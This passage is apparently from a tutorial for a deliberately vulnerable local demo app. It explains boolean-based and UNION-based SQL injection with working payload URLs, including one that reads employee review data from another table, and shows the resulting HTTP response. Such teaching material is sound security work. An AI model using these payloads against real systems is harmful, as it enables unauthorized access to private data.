     http://localhost:8080/filterUserJpaStoredProcedureUnSafe?name=Bilbo' or '1' = '1

### Different types of SQL Injection Techniques
You can easily divide the SQL Injection attacks based on different techniques used to exploit the vulnerability. Here we will talk about some of the most common ones.

#### 1. Boolean based
This is the most common technique used while doing SQL Injection attacks wherein you try to get more information from the application, then it was intended to return.

So for instance there is a web endpoint to filter the list of employees in the company and we use that to inject SQL to get list of all employees in the system.

Find all the employees who have name "Bilbo"

    http://localhost:8080/filterUserJdbcUnSafe?name=Bilbo
    
And this could be used by hacker to get list of all the employees by adding a boolean clause "or '1' = '1"" like this:

    http://localhost:8080/filterUserJdbcUnSafe?name=Bilbo' or '1' = '1

#### 2. Union
In this the hacker adds a UNION SQL clause to the SELECT query which is vulnerable and the response would then contain data from other table if specified. 

    http://localhost:8080/filterUserGlobalAccessUnSafe?name=Bilbo' union all select 1, concat(review,'-----',rating),review,  'STAFF'  from management.employee_review where '1'='1
    
    HTTP/1.1 200 
    Connection: keep-alive
    Content-Type: application/json
    Date: Mon, 30 Mar 2020 14:53:34 GMT
    Keep-Alive: timeout=60
    Transfer-Encoding: chunked
    
    [
        {
            "id": 1,
            "name": "Bilbo",
            "role": "MANAGER"
        },
        {
            "id": 1,
            "name": "Good performance-----5",
            "role": "STAFF"
        },
        {
            "id": 1,
            "name": "okay performance-----3",
            "role": "STAFF"
        }
    ]

